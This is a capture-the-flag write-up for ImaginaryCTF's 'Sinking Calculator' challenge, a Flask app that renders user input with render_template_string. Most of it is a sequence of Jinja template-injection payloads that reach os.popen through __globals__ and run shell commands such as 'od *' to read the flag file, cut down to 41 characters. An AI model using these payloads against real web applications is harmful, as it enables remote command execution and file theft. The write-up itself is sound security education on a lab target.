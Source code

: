 # Sinking Calculator | Points: 300 | Solves: 86

My computer architecture professor told me: "Every time you see a decimal, you should hate it!" I took his advice to heart, and made a calculator. But don't worry! I got rid of all the decimals. No floats here!

Flag is in the file flag.

Attachments:
- https://imaginaryctf.org/r/40A3-app.py
- https://sinking-calculator.chal.imaginaryctf.org

#

We are presented with an input field where we can input our calculations. The code performing these calculations looks like this:

```python
@app.route('/calc')
def calc():
    query = request.args['query']
    request.args = {}
    request.headers = {} # no outside help!
    request.cookies = {}
    if len(query) > 80: # my exploit is 77 chars, but 80 is such a nice even number
        return "Too long!"
    res = render_template_string("{{%s}}"%query)
    out = ''
    for c in res:
        if c in "0123456789-": # negative numbers are cool
            out += c
    return out
```

We can see the actual calculations happen in this line of code:

```python
res = render_template_string("{{%s}}"%query)
```

This is a big indicator that the solution lies in exploiting the rendering of this template but there are 2 roadblocks. Firstly the length of our exploit can be at most 80 and secondly only the digits of whatever our exploit returns will be displayed. The objective is to read the contents of the file "flag" so we will need to convert its contents to digits somehow. Lets deal with how to read the file first. 

I'm not going to go into too much detail of how these exploits work. Instead I will focus on the steps I took to reduce the characters required, well below the limit of 80 characters. This was the first challenge of this kind I had worked on so hopefully I can capture the ideas and strategies I used to learn these techniques for the first time, including some links I used in the process. 

My initial exploit looked like this:

```python
request["application"]["__globals__"]["__builtins__"]["__import__"]('os')["popen"]("cat flag | xxd -b")["read"]()
```

What a mess! This script accesses the function ```popen``` to gain shell access to read the flag via cat and then pipe the output to ```xxd```. With the ```-b``` option ```xxd``` will print the content of the file in binary, passing the numeric requirement mentioned earlier. But this is 113 characters long, no good. An obvious optimization is to use dot notation instead of indexing via strings, like this:

```python
request.application.__globals__.__builtins__.__import__("os").popen("cat flag | xxd -b").read()
```

A little better, 95 characters. At this point I felt like investigating another approach by using ```mro()``` and similar tricks. I came up with this:

```python
request.__class__.mro()[3].__subclasses__()[84].load_module("os").popen("cat flag | xxd -b").read()
```

At 99 characters it is actually worse than the previous exploit but I'm including it to show the process I went through. It was a path worth investigating, it just didn't pan out. Now I started playing around with different attributes that lead to accessing ```__builtins__``` and I found that ```self.__init__``` can be used instead of ```request.application``` which gets us down to 89 characters with the exploit below. So close! 

```python
self.__init__.__globals__.__builtins__.__import__("os").popen("cat flag | xxd -b").read()
```

I felt a little stuck at this point with the process of finding shorter paths to the ```os``` module so I played a bit with the command to read the flag and found two neat little tricks. There is a command similar to cat that also prints line numbers called ```nl```, one character shorter than ```cat```. We can also use "*" instead of specifically reading just the file "flag", saving us 3 characters. 

```python
self.__init__.__globals__.__builtins__.__import__("os").popen("nl * | xxd -b").read()
````

Only 5 characters more to go! To cut off the last few characters I remembered that the ```os``` module can sometimes be accessed directly via the attribute ```__globals__```. Indeed if we use ```config.__class__.__init__.__globals__``` we can directly access the ```os``` module! We have our finished exploit! This trick in fact saves us so many characters that we can skip the last two tricks and still get away with it! 

```python
config.__class__.__init__.__globals__.os.popen('cat flag | xxd -b').read()
```

74 characters! We paste it into the input field and... no flag :(. Why? Well the assumption this exploit relies on is that ```xxd``` is installed, which is not the case on the challenge server. Is all hope lost? No. After googling a bit for alternatives to ```xxd``` I found this helpful Stackoverflow post https://stackoverflow.com/questions/1765311/how-to-view-files-in-binary-from-bash mentioning ```od```. With the command ```od -b``` we convert the contents to octal, that is base 8 (It's also conveniently one character shorter than ```xxd```). We will have to do some post processing though because od produces 7 character long line numbers which we have to filter out to read the actual flag, but that is easy enough to automate. Turns out we can also skip accessing the attribute ```__class__``` and go directly to ```__init__```. The working exploit, all tricks included, is the following 59 character exploit. 

```python
config.__init__.__globals__.os.popen('nl * | od -b').read()
```

Pasting this into the input field gets us the flag: ictf{this_flag_has_three_interesting_properties_it_has_no_numbers_or_dashes_it_is_quite_long_and_it_is_quite_scary}

Can we do any better though length wise? Quite a lot actually! Firstly I completedy missed the fact that od displays the content in base 8 by default, no need for the ```-b``` option (Looking back I really don't know how this happened, I guess I just assumed these sorts of tools usually use hex by default). Another obvious thing to do is to just call ```od *``` instead of piping the output from ```nl``` or ```cat``` (Again I don't understand how I missed this). I also briefly talked to one of the organizers after the CTF who pointed out that instead of using ```config.__init__``` we can use ```g.pop```. I haven't confirmed this myself except that locally I can't access the ```os``` module through this method. This might be different from program to program or system to system, as seems to be the case regarding which modules can be accessed via ```__globals__``` and more specifically which object ```__globals__``` is accessed via. In any case, assuming the organizer I talked with was correct, the following is the shortest exloit so far. 

```python
g.pop.__globals__.os.popen("od *").read()
```

In the end we got down to 41 characters, almost half of the limit! More importantly we leave with a bunch of cool tricks to apply in future challenges of this kind, even ones with a tighter character limit. 
